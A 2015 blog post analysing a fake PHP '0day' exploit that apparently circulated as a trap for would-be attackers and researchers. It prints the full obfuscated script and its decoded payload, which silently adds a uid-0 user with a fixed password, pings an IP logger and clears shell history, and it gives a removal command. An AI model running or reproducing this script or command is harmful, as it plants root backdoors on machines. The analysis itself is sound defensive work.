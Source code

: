```yaml
---
layout: post
title:  "PHP fake 0day"
subtitle: "Having fun with a false exploit"
date:   2015-08-07 23:34:01
category: itsec
---
```


Today [@sh1bumi](https://twitter.com/Sh1bumi) of [@MalwareMustDie](https://twitter.com/MalwareMustDie) found a interesting **PHP** script. At a first look at seemed like a **0day** for websites which are running PHP. "This cannot be, another 0day" we thought, so we analysed the script.
(Script is at the end of the post)

When running it it does that:

        [1;33mScript Replied:[0m Run as [1;32m[4mroot[0m user!

A 0day PHP exploit script has to be run as root? What? Okay, okay. Let's run as root:

```php
                  ____.----.
        ____.----'          \
        \                    \
         \                    \
          \                    \
           \          ____.----'`--.__
            \___.----'          |     `--.____
           /`-._                |       __.-' \
          /     `-._            ___.---'       \
         /          `-.____.---'                \
        /            / | \                       \
       /            /  |  \                   _.--'
       `-.         /   |   \            __.--'
          `-._    /    |    \     __.--'     |
            | `-./     |     \_.-'           |
            |          |                     |   0DAY
            |          |                     |   EXPLOIT
            |          |                     |   UNBOXED
            |          |                     |
            |          |                     |  -ANONYMOUS-
            |          |                     |
     _______|          |                     |_______________
            `-.        |                  _.-'
               `-.     |           __..--'
                  `-.  |      __.-'
                     `-|__.--'
     # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
     # Google Dork: .php
     # Date: 02/09/2015
     # Exploit Author: Leaked by Anonymous
     # Vendor Homepage: http://php.net/
     # Software Link: http://php.net/downloads.php
     # Version: All versions
     # Tested on: Windows, Linux
     # CVE: 0day (No CVE)
     # Usage: php 0day.php <website> <filename>[0m
```

Aha, so this is a 0day and we just have to run it against any website. No hint what the script actually should do to that remote website. So let's run it:

        $: sudo php 0day.php http://localhost localhost
        sh: 1: history: not found
        Source of http://localhost saved to localhost

The script wrote the file *localhost*, when looking at the contents it shows us that:

        <html>
        <header>
        <title>Test</title>
        </header>
        <body>
        this is just a test
        </body>
        </html>

Okay, it just saved the output of the website to a file, the website had this script:

        <html>
        <header>
        <title>Test</title>
        </header>
        <body>
                <?php echo "this is just a test"; ?>
        </body>
        </html>
`​``

I added **PHP** code to it in case it does some magic to it (remember, the Google Dork is *.php*).
Now I am a bit frustaded, no cool kiddo magic? No server bashing?
Let's dig deeper!

Variable *$header* is just the fancy ASCII stuff at the beginning, so let's look at:

        $bytes = array("passthru", "base64_decode");
    @array_push($bytes, "gzuncompress", "base64_decode");
    var_dump($bytes);
    @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));

*var_dump($bytes)* gives me the way how the encoded string will be processed, so let's add an *echo* at the right place:

        array (size=4)
          0 => string 'passthru' (length=8)
          1 => string 'base64_decode' (length=13)
          2 => string 'gzuncompress' (length=12)
          3 => string 'base64_decode' (length=13)

        $bytes = array("passthru", "base64_decode");
    @array_push($bytes, "gzuncompress", "base64_decode");
    var_dump($bytes);
    @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));
    echo $bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF')));

Which gives me:

        useradd -ou 0 -g 0 dd0s > /dev/null 2>&1;echo dd0s:genny1995 | chpasswd 2>&1;curl --silent http://iplogger.org/1z7H3 ;history -c

Hu, that is no remote exploit. That adds silently a user with password and **ID 0**. Yes, **0**. **0 is root**. So this user might handled with root privileges. Also it curls an URL, this is just there to log IP accessing it, so the crooks just wait until IP's are arriving and then open SSH connections as user dd0s with password genny1995. Curl just recieves a blank GIF image:

        GIF89a^A^@^A^@�^@^@^@^@^@^@^@^@!�^D^A^@^@^@^@,^@^@^@^@^A^@^A^@^@^B^BD^A^@;

Okay, as we see, this is some kind of a honeytrap. Kiddies, wannabe hackers and researchers might think they found a new cool exploit, run this script as root (as it requests) and get owned. So the crooks just login to that user with an ID of 0.
To delete that user run:

        userdel -f dd0s

You will get this warning:

        userdel: user dd0s is currently used by process 1

That is because it has the same id as root.

We learn: be aware when you research, you might get aimed as a researcher. And to the kiddos: I am laughing at you when you think you found another script to easily own other systems with simple commands.

**Malware must die!**

**Thanks to sh1bumi!**

And to the crooks which are spreading that script: we are right hunting you. Prepare your butt!

![](https://i.imgur.com/ABDOMID.png)


----------

Script:

        <?php
        /*
        # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
        # Google Dork: .php
        # Date: 02/09/2015
        # Exploit Author: Leaked by Anonymous
        # Vendor Homepage: http://php.net/
        # Software Link: http://php.net/downloads.php
        # Version: All versions
        # Tested on: Windows, Linux
        # CVE: 0day (No CVE)
        # Credits: Anonymous Hacker
        */
        error_reporting(0);
        if (!defined('STDIN')) {
            die("Run through command line skiddy!");
        }
        if (posix_getuid() != '0') {
            exit("[1;33mScript Replied:[0m Run as [1;32m[4mroot[0m user!
        ");
        }
        $header =
        gzuncompress(base64_decode("eJyllEEKgzAQRfdewY07VyZtXXZl0UWhNYVWUCrEC3iDHL6TRM1MDIh1FiLJ+/N/zGD8PV/zfIySVUkolkGxaLWUOqxfdvt1D7y9ub8NYMJlGSCilOQEfSCoMk8LU5wPsOb7qsWHQRecgk+NqGZynA2RgDtosOaMJvMVHC9zSBL8MFjiKXT4kEYbp7MGspCI+sBEJAmeuCMbN/N9egSaV0WuQWkJTxYc7oWRg+tVTxF69YBYz+xlPJVFFwfGd0+Pqn09xP1ztE1T30Rblf+12e06mWZFLeruKZp3dsRY2trGJS1ihoYpoNa37v9hZgXGYZC8kSO0WqggYzBlh/EHmvLOew=="));
        function duplicate_source($website, $file) {
            $bytes = array("passthru", "base64_decode");
            @array_push($bytes, "gzuncompress", "base64_decode");
            @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));
            (file_put_contents($file, file_get_contents($website)) ? print ("
        [1;33m# Script Replied:[0m Source of [1;33m$website[0m has been saved to
        [1;33m$file[0m
        ") : exit("     [1;33mScript Replied:[0m [31mExploit failed[0m
         for [1;33m$website[0m"));
        }
        if ($argc != 3) {
            exit($header . "


             # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
             # Google Dork: .php
             # Date: 02/09/2015
             # Exploit Author: Leaked by Anonymous
             # Vendor Homepage: http://php.net/
             # Software Link: http://php.net/downloads.php
             # Version: All versions
             # Tested on: Windows, Linux
             # CVE: 0day (No CVE)

             # Usage: php $argv[0] <website> <filename>[0m

        ");
        }
        duplicate_source($argv[1], $argv[2]);
        ?>